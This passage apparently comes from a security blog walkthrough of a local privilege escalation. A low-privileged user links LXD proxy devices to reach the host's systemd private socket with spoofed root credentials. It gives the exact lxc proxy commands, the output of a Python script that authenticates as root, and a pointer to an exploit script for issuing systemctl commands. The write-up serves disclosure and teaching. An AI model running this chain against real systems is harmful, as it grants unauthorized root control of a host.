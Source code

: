 This is designed to connect to a socket specified as the first argument and then to send the first message we observed in the output of `strace`.

What happens when we run this as our lowpriv user directly against the systemd private socket?

```
lowpriv@server:~$ ./systemd_auth.py /run/systemd/private
[!] Connection reset...
```

OK, so nothing back from the socket. We know we can spoof root using proxied sockets. Let's create a two-stage tunnel next. The first will connect to the private systemd socket on our host and bind it inside the container to `/tmp/container_sock`. The second will connect to that new socket inside the container and then bind it to `/tmp/host_sock` on our host.

The reason for this two-step proxy is just so we can do all our work on the host, without having to jump inside the container.

```
# Create initial socket proxy
lowpriv@server:~$ lxc config device add falcor container_sock \
    proxy connect=unix:/run/systemd/private listen=unix:/tmp/container_sock \
    bind=container mode=0777
Device container_sock added to falcor

# Create second socket proxy
lowpriv@server:~$ lxc config device add falcor host_sock \
    proxy connect=unix:/tmp/container_sock listen=unix:/tmp/host_sock \
    bind=host mode=0777
Device host_sock added to falcor
```

Alright, now let let's run the python script again to see if we can now talk to systemd. This time we will run it through our tunnel of sockets.

```
lowpriv@server:~$ ./systemd_auth.py /tmp/host_sock
OK 9e46264bb91045f19797dd7b1d70f513
AGREE_UNIX_FD
```

Excellent! We are now speaking directly to the host's systemd service as if we are root.

From here, we can continue to analyze `strace` output to build the `systemctl` commands we want to run. While `strace` shows the message data broken into fragments, we can actually piece them together into singe variables in a Python script and throw them at the socket.

You can review the source code of lxd_rootv2.py to fully understand how this is implemented.

If you followed along in this blog, you can do a bit of cleanup by running the following commands

```
lxc config device remove falcor proxy_sock
lxc config device remove falcor container_sock
lxc config device remove falcor host_sock
rm /tmp/host_sock
rm /tmp/proxy_sock
rm /tmp/echo.sock
```
